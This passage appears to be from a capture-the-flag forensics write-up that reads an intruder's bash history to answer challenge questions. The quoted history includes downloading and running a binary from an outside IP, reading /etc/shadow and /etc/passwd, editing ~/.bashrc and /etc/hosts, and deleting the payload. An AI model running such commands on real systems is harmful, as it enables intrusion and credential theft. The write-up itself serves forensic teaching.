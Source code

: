 ```console
./ttserve 
rm -rf /tmp/ttserve ./ttserve
netstat -plant
ps kill -9 12432
clear
ls
vim ~/.bashrc
vim /etc/hosts
cat /etc/passwd
cat /etc/shadow
ifconfig
nmap -sL -n 192.168.2.1/32 | grep 'Nmap scan report for' | cut -f 5 -d ' '
cd application/l
cd application/
ls
git diff
git status
git commit
git push origin master
cd ../
cat README.md
```

__Answer: 192.168.2.1/32__
</div>

<div class="rBorder" markdown="1">
<span style="color:red">5. __What is the first file the hacker modified the contents of?__</span>

We simply have to look for a file editor that is being used. In this one it seems [vim](https://en.wikipedia.org/wiki/Vim_(text_editor)) is being used. Try not to get confused with the first few lines! Look past the [whoami](https://en.wikipedia.org/wiki/Whoami) command that is being used by the hacker after the certain "breach".

```console
root@kali:~/Downloads/NCL-2016-Game2-Compromise/dir# cat .bash_history 
cd ~/docs
ls
vim 100 0 0.5 10 .csv
vim 100\ 0\ 0.5\ 10\ .csv
vim 100\ 0\ 4.0\ 20\ .csv
vim README.md
---snip---
whoami
killall -9 ttserve 
lynx -source http://216.242.103.2:8882/foo > /tmp/ttserve 
chmod 755 /tmp/ttserve 
cd /tmp 
./ttserve 
rm -rf /tmp/ttserve ./ttserve
netstat -plant
ps kill -9 12432
clear
ls
vim ~/.bashrc
vim /etc/hosts
cat /etc/passwd
cat /etc/shadow
ifconfig
nmap -sL -n 192.168.2.1/32 | grep 'Nmap scan report for' | cut -f 5 -d ' '
cd application/l
cd application/
ls
git diff
git status
```